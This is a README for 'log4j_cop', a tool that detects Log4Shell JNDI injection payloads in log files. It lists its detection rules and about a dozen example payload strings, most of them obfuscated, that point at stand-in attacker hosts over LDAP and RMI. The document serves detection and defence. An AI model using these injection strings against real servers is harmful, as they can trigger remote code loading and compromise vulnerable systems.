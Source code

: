 # log4j_cop

Detect log4j payloads from a log file.

**Usage:**

```bash
./log4j_cop <LOG_FILE>
```

## Rules

Currently the following rules (and variants) are being accounted for:

* ${jndi:ldap://
* ${jndi:rmi://
* ${jndi:ldaps:/
* ${jndi:dns:/
* ${jndi:nis:/
* ${jndi:nds:/
* ${jndi:corba:/
* ${jndi:iiop:/

## Algorithm

Each line is broken into characters and we check whether these characters match
one of our rulesets in the correct order, ignoring characters that do not match.

## Examples being matched

```
${jndi:ldap://whatever.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
